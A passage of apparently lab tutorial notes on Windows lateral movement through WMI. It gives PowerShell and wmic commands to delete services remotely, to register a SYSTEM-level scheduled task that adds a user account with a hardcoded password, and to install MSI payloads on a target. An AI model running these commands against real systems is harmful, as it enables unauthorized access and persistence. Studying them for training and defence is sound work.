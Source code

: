 Finally, we can stop and delete the service with the following commands:

```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```


## Creating Scheduled Tasks Remotely with WMI

- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

To delete the scheduled task after it has been used, we can use the following command:

```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```


## Installing MSI packages through WMI

- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
- **Required Group Memberships:** Administrators

MSI is a file format used for installers. If we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us. The file can be copied in any way available to the attacker. Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class through WMI:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

We can achieve the same by us using wmic in legacy systems:

```shell-session
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```
